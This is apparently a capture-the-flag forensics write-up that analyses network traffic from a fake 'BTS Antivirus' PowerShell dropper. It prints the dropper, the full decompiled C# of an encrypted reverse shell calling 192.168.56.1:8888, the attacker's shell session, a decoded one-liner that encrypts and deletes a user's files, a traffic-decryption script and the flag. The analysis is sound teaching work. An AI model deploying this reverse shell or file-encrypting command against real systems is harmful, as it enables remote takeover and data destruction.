






# BTS Antivirus - writeup
## Overview of the PCAP file
Upon opening the PCAP filem you can spot three main sections:

1. HTTP traffic

2. This weird TCP traffic to port 5000 appearing as RSL protocol
   
3. The rest of TCP traffic exchanging data between ports 49853 and 8888
   

## Analyzing the downloaded file - antivirus.ps1
Use File > Export Objects > HTTP in Wireshark to save it to the disk.

Extracted script:
```powershell
$sb = { [byte[]] $data = 0x4d,0x5a,0x90 ... 0x00,0x00,0x00;$assembly = [System.Reflection.Assembly]::Load($data);
$type = $assembly.GetType("Executor");
$method = $type.GetMethod("Run");
$method.Invoke($null, $null); 
};
Write-Host "Welcome to the BTS Antivirus!!!";
Write-Host "Starting full system scan...";
Start-Job -ScriptBlock $sb | Out-Null;
Start-Sleep 10;
Write-Host "Scan complete - no viruses found :D"
```
It first loads .NET assembly using reflection to the powershell session, and then executes it in the background.
The compiled assembly is nothing more than a DLL file - you can save the bytes in ```$data``` to file, and analyze it with a .NET decompiler - I will use Jetbrains DotPeek.

## Analyzing the .NET assembly
Here are results of decompilation:
```csharp
// Decompiled with JetBrains decompiler
// Type: Executor
// Assembly: Executor, Version=1.0.0.0, Culture=neutral, PublicKeyToken=null
// MVID: CF26168A-E140-4619-A35F-EF2E263C22AF
// Assembly location: C:\Users\MichaB\wh-bts\forensics2-solve\bts-extracted.exe

using System;
using System.Collections.Generic;
using System.Diagnostics;
using System.IO;
using System.Linq;
using System.Net;
using System.Net.Security;
using System.Net.Sockets;
using System.Security.Cryptography;
using System.Text;

#nullable enable
internal class Executor
{
  private static byte[] Encrypt(string plaintext, ICryptoTransform encryptor)
  {
    MemoryStream memoryStream = new MemoryStream();
    using (CryptoStream cryptoStream = new CryptoStream((Stream) memoryStream, encryptor, CryptoStreamMode.Write))
    {
      using (StreamWriter streamWriter = new StreamWriter((Stream) cryptoStream))
        streamWriter.Write(plaintext);
      return memoryStream.ToArray();
    }
  }

  private static string Decrypt(byte[] ciphertext, ICryptoTransform decryptor)
  {
    using (CryptoStream cryptoStream = new CryptoStream((Stream) new MemoryStream(ciphertext), decryptor, CryptoStreamMode.Read))
    {
      using (StreamReader streamReader = new StreamReader((Stream) cryptoStream))
        return streamReader.ReadToEnd();
    }
  }

  public static void Run()
  {
    using (Aes aes = Aes.Create())
    {
      ServicePointManager.ServerCertificateValidationCallback = (RemoteCertificateValidationCallback) ((_param1, _param2, _param3, _param4) => true);
      aes.Key = new WebClient().DownloadData("https://192.168.56.1:5000/get_key");
      aes.IV = Encoding.UTF8.GetBytes("Z6LhFDiCgfOB8HNK");
      aes.Mode = CipherMode.CBC;
      ICryptoTransform encryptor = aes.CreateEncryptor(aes.Key, aes.IV);
      ICryptoTransform decryptor = aes.CreateDecryptor(aes.Key, aes.IV);
      using (TcpClient tcpClient = new TcpClient("192.168.56.1", 8888))
      {
        using (NetworkStream stream = tcpClient.GetStream())
        {
          byte[] numArray = new byte[4096];
          try
          {
            while (true)
            {
              int count = stream.Read(numArray, 0, numArray.Length);
              string plaintext = Executor.ExecuteCommand(Executor.Decrypt(((IEnumerable<byte>) numArray).Take<byte>(count).ToArray<byte>(), decryptor));
              Console.WriteLine(plaintext);
              byte[] second = Executor.Encrypt(plaintext, encryptor);
              byte[] bytes = BitConverter.GetBytes(second.Length);
              stream.Write(((IEnumerable<byte>) bytes).Concat<byte>((IEnumerable<byte>) second).ToArray<byte>(), 0, second.Length + 4);
            }
          }
          catch (Exception ex)
          {
            stream.Write(Encoding.UTF8.GetBytes(ex.Message), 0, ex.Message.Length);
          }
        }
      }
    }
  }

  private static string ExecuteCommand(string command)
  {
    Process process = new Process()
    {
      StartInfo = new ProcessStartInfo()
      {
        FileName = "powershell.exe",
        Arguments = "-Command " + command,
        RedirectStandardOutput = true,
        UseShellExecute = false,
        CreateNoWindow = true,
        RedirectStandardError = true
      }
    };
    process.Start();
    string end = process.StandardOutput.ReadToEnd();
    process.WaitForExit();
    return end;
  }
}

```
The program appears to be a reverse shell - it communicates with a C2 server over encrypted TCP socket traffic on port 8888. The key used to encrypt messages is not hardcoded - instead, it is fetched from the HTTPS server before estabilishing a connection. You can click on packets sent to port 5000 in wireshark, go to Decode As, and set the protocol to TLS. Wireshark should interpret it correctly now - switching from RSL to TLSv1.3


## Decrypting reverse shell TCP traffic
The first step is getting the AES key. It can be extracted from the memory dump attached to the challenge. You can use tool like ```bulk_extractor```:




We managed to extract two AES keys - one is 128 bits, and one is 256 bits. We can assume one of them is used for C2 traffic encryption.

Before we write a script to decrypt the traffic, we have to take a look at message formats.

Message from server:
```csharp
int count = stream.Read(numArray, 0, numArray.Length);
string plaintext = Executor.ExecuteCommand(Executor.Decrypt(((IEnumerable<byte>) numArray).Take<byte>(count).ToArray<byte>(), decryptor));
```
When the client recieves a message from server, it just decrypts the whole thing.

Message from client:
```csharp
byte[] second = Executor.Encrypt(plaintext, encryptor);
byte[] bytes = BitConverter.GetBytes(second.Length);
stream.Write(((IEnumerable<byte>) bytes).Concat<byte>((IEnumerable<byte>) second).ToArray<byte>(), 0, second.Length + 4);
```
When the client sends a message, it prepends it with four bytes specifying the length of the encrypted message.

## Getting the flag
You can write a decryption script that will parse the PCAP file and print out the messages
```python
from scapy.all import rdpcap, TCP
from Crypto.Cipher import AES
from Crypto.Util import Padding

key = b"\x74\xf4\x90\x6e\x54\x93\x55\x8d\x1f\xe7\x49\x34\x50\x85\x52\x3d"
iv = b"Z6LhFDiCgfOB8HNK"

messages = []
pcap = rdpcap("filtered.pcapng")
for pkt in pcap:
    cipher = AES.new(key, AES.MODE_CBC, iv)
    if pkt.haslayer(TCP) and (pkt[TCP].dport == 8888):
        try:
            messages.append(Padding.unpad(cipher.decrypt(bytes(pkt[TCP].payload)[4:]), cipher.block_size))
        except:
            pass
    elif pkt.haslayer(TCP) and (pkt[TCP].sport == 8888):
        try:
            messages.append(Padding.unpad(cipher.decrypt(bytes(pkt[TCP].payload)), cipher.block_size))
        except:
            pass
[print(msg.decode()) for msg in messages]
```
Output: 
```
whoami
bob-pc\bob  

pwd

Path        
----
C:\Users\bob


gci Env:

Name                           Value
----                           -----
ALLUSERSPROFILE                C:\ProgramData
APPDATA                        C:\Users\bob\AppData\Roaming
CommonProgramFiles             C:\Program Files\Common Files
CommonProgramFiles(x86)        C:\Program Files (x86)\Common Files
CommonProgramW6432             C:\Program Files\Common Files
COMPUTERNAME                   BOB-PC
ComSpec                        C:\Windows\system32\cmd.exe
DriverData                     C:\Windows\System32\Drivers\DriverData
flag_part                      BtSCTF{Sti11
HOMEDRIVE                      C:
HOMEPATH                       \Users\bob
LOCALAPPDATA                   C:\Users\bob\AppData\Local
LOGONSERVER                    \\BOB-PC
NUMBER_OF_PROCESSORS           4
OneDrive                       C:\Users\bob\OneDrive
OS                             Windows_NT
Path                           C:\Program Files\PowerShell\7;C:\Windows\system32;C:\Windows;C:\Windows\System32\Wbem...
PATHEXT                        .COM;.EXE;.BAT;.CMD;.VBS;.VBE;.JS;.JSE;.WSF;.WSH;.MSC;.CPL
POWERSHELL_DISTRIBUTION_CHA... MSI:Windows 10 Pro
POWERSHELL_TELEMETRY_OPTOUT    1
PROCESSOR_ARCHITECTURE         AMD64
PROCESSOR_IDENTIFIER           AMD64 Family 23 Model 113 Stepping 0, AuthenticAMD
PROCESSOR_LEVEL                23
PROCESSOR_REVISION             7100
ProgramData                    C:\ProgramData
ProgramFiles                   C:\Program Files
ProgramFiles(x86)              C:\Program Files (x86)
ProgramW6432                   C:\Program Files
PSModulePath                   C:\Users\bob\Documents\PowerShell\Modules;C:\Program Files\PowerShell\Modules;c:\prog...
PUBLIC                         C:\Users\Public
SESSIONNAME                    Console
SystemDrive                    C:
SystemRoot                     C:\Windows
TEMP                           C:\Users\bob\AppData\Local\Temp
TMP                            C:\Users\bob\AppData\Local\Temp
USERDOMAIN                     BOB-PC
USERDOMAIN_ROAMINGPROFILE      BOB-PC
USERNAME                       bob
USERPROFILE                    C:\Users\bob
windir                         C:\Windows
WSLENV                         WT_SESSION:WT_PROFILE_ID:
WT_PROFILE_ID                  {574e775e-4f2a-5b96-ac1e-a2962a402336}
WT_SESSION                     83c660f8-e0fe-42b5-a2d9-23519f2fa432


gci C:\Users\bob


    Directory: C:\Users\bob


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-r---         4/29/2024   2:59 PM                Contacts
d-r---         4/30/2024  12:26 PM                Desktop
d-r---         4/30/2024  12:26 PM                Documents
d-r---         4/29/2024   3:47 PM                Downloads
d-r---         4/29/2024   8:54 PM                Favorites
d-r---         4/29/2024   8:54 PM                Links
d-r---         4/29/2024   2:59 PM                Music
d-r---         3/17/2024   1:21 PM                OneDrive
d-r---         4/29/2024   2:59 PM                Pictures
d-r---         4/29/2024   2:59 PM                Saved Games
d-r---         4/29/2024   8:54 PM                Searches
d-r---         4/29/2024   2:59 PM                Videos


gci C:\Users\bob\Documents


    Directory: C:\Users\bob\Documents


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         4/29/2024   3:30 PM          20078 freeflag.docm


gci C:\Users\bob\Desktop


    Directory: C:\Users\bob\Desktop


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         4/29/2024   3:09 PM          20810 cat.jpg
-a----         4/30/2024  12:27 PM            169 todo_important.txt


iex ([System.Text.Encoding]::UTF8.GetString([Convert]::FromBase64String('JGZvbGRlcj0nQzpcVXNlcnNcYm9iJzsgQWRkLVR5cGUgLUFzc2VtYmx5TmFtZSBTeXN0ZW0uU2VjdXJpdHk7ICRwcm92aWRlciA9IE5ldy1PYmplY3QgU3lzdGVtLlNlY3VyaXR5LkNyeXB0b2dyYXBoeS5BZXNDcnlwdG9TZXJ2aWNlUHJvdmlkZXI7ICRwcm92aWRlci5LZXkgPSBbU3lzdGVtLlRleHQuRW5jb2RpbmddOjpVVEY4LkdldEJ5dGVzKCJfdzR5X2IzdHQzcl90aDRuIik7ICRwcm92aWRlci5JViA9IFtTeXN0ZW0uVGV4dC5FbmNvZGluZ106OlVURjguR2V0Qnl0ZXMoIjAzOTh5OXhsY3pzbXJmeTgiKTsgR2V0LUNoaWxkSXRlbSAkZm9sZGVyIC1GaWxlIC1SZWN1cnNlIHwgRm9yRWFjaC1PYmplY3QgeyAkaW5wdXQgPSBOZXctT2JqZWN0IElPLkZpbGVTdHJlYW0oJF8uRnVsbE5hbWUsIFtJTy5GaWxlTW9kZV06Ok9wZW4sIFtJTy5GaWxlQWNjZXNzXTo6UmVhZCk7ICRmaWxlbmFtZSA9ICIkKCRfLkZ1bGxOYW1lKS5lbmMiOyAkb3V0cHV0ID0gW1N5c3RlbS5JTy5GaWxlXTo6Q3JlYXRlKCRmaWxlbmFtZSk7ICRjcyA9IE5ldy1PYmplY3QgU3lzdGVtLlNlY3VyaXR5LkNyeXB0b2dyYXBoeS5DcnlwdG9TdHJlYW0oJG91dHB1dCwgJHByb3ZpZGVyLkNyZWF0ZUVuY3J5cHRvcigpLCBbU3lzdGVtLlNlY3VyaXR5LkNyeXB0b2dyYXBoeS5DcnlwdG9TdHJlYW1Nb2RlXTo6V3JpdGUpOyAkaW5wdXQuQ29weVRvKCRjcyk7ICRjcy5DbG9zZSgpOyAkb3V0cHV0LkNsb3NlKCk7ICRpbnB1dC5DbG9zZSgpOyBSZW1vdmUtSXRlbSAkX307ICRwcm92aWRlci5EaXNwb3NlKCk7')))

gci C:\Users\bob\Desktop


    Directory: C:\Users\bob\Desktop


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         4/30/2024  12:33 PM          20816 cat.jpg.enc
-a----         4/30/2024  12:33 PM            176 todo_important.txt.enc


[Convert]::ToBase64String([IO.File]::ReadAllBytes((gci "${Env:USERPROFILE}\Desktop\todo_important.txt.enc")))
1rlR6HY6oRjdSfnHgqBXsPmynKA+STdghcT3tvM1JqOACFb7C9tdd1lTrfr2xxmKe72f/I4TCUx9y2RftjCnCZcN6TwfGJaRwKxbvfp7x1zn7Im4mczMfT7n05gvfrPgZzLKyBQlMFou1FsDL2Xgc8etlub0DWu70Nztl4cncB3edgz/CHqv+YwjbElE3Z0yz7Ne0uf5Vb1SFkQZmVo9tVIzOPvS6MO+EIRMxKiPIHs=

```
The first part is in flag_part environment variable, second is an AES key in the base64 encoded command:
```
iex ([System.Text.Encoding]::UTF8.GetString([Convert]::FromBase64String('JGZvbGRlcj0nQzpcVXNlcnNcYm9iJzsgQWRkLVR5cGUgLUFzc2VtYmx5TmFtZSBTeXN0ZW0uU2VjdXJpdHk7ICRwcm92aWRlciA9IE5ldy1PYmplY3QgU3lzdGVtLlNlY3VyaXR5LkNyeXB0b2dyYXBoeS5BZXNDcnlwdG9TZXJ2aWNlUHJvdmlkZXI7ICRwcm92aWRlci5LZXkgPSBbU3lzdGVtLlRleHQuRW5jb2RpbmddOjpVVEY4LkdldEJ5dGVzKCJfdzR5X2IzdHQzcl90aDRuIik7ICRwcm92aWRlci5JViA9IFtTeXN0ZW0uVGV4dC5FbmNvZGluZ106OlVURjguR2V0Qnl0ZXMoIjAzOTh5OXhsY3pzbXJmeTgiKTsgR2V0LUNoaWxkSXRlbSAkZm9sZGVyIC1GaWxlIC1SZWN1cnNlIHwgRm9yRWFjaC1PYmplY3QgeyAkaW5wdXQgPSBOZXctT2JqZWN0IElPLkZpbGVTdHJlYW0oJF8uRnVsbE5hbWUsIFtJTy5GaWxlTW9kZV06Ok9wZW4sIFtJTy5GaWxlQWNjZXNzXTo6UmVhZCk7ICRmaWxlbmFtZSA9ICIkKCRfLkZ1bGxOYW1lKS5lbmMiOyAkb3V0cHV0ID0gW1N5c3RlbS5JTy5GaWxlXTo6Q3JlYXRlKCRmaWxlbmFtZSk7ICRjcyA9IE5ldy1PYmplY3QgU3lzdGVtLlNlY3VyaXR5LkNyeXB0b2dyYXBoeS5DcnlwdG9TdHJlYW0oJG91dHB1dCwgJHByb3ZpZGVyLkNyZWF0ZUVuY3J5cHRvcigpLCBbU3lzdGVtLlNlY3VyaXR5LkNyeXB0b2dyYXBoeS5DcnlwdG9TdHJlYW1Nb2RlXTo6V3JpdGUpOyAkaW5wdXQuQ29weVRvKCRjcyk7ICRjcy5DbG9zZSgpOyAkb3V0cHV0LkNsb3NlKCk7ICRpbnB1dC5DbG9zZSgpOyBSZW1vdmUtSXRlbSAkX307ICRwcm92aWRlci5EaXNwb3NlKCk7')))
```
decoded: 
```powershell
$folder='C:\Users\bob'; Add-Type -AssemblyName System.Security; $provider = New-Object System.Security.Cryptography.AesCryptoServiceProvider; $provider.Key = [System.Text.Encoding]::UTF8.GetBytes("_w4y_b3tt3r_th4n"); $provider.IV = [System.Text.Encoding]::UTF8.GetBytes("0398y9xlczsmrfy8"); Get-ChildItem $folder -File -Recurse | ForEach-Object { $input = New-Object IO.FileStream($_.FullName, [IO.FileMode]::Open, [IO.FileAccess]::Read); $filename = "$($_.FullName).enc"; $output = [System.IO.File]::Create($filename); $cs = New-Object System.Security.Cryptography.CryptoStream($output, $provider.CreateEncryptor(), [System.Security.Cryptography.CryptoStreamMode]::Write); $input.CopyTo($cs); $cs.Close(); $output.Close(); $input.Close(); Remove-Item $_}; $provider.Dispose();
```
And finally, the last part is in decrypted contents of ```todo_important.txt.enc```


## Flag
```BtSCTF{Sti11_w4y_b3tt3r_th4n_McAf33_:D_72844187}```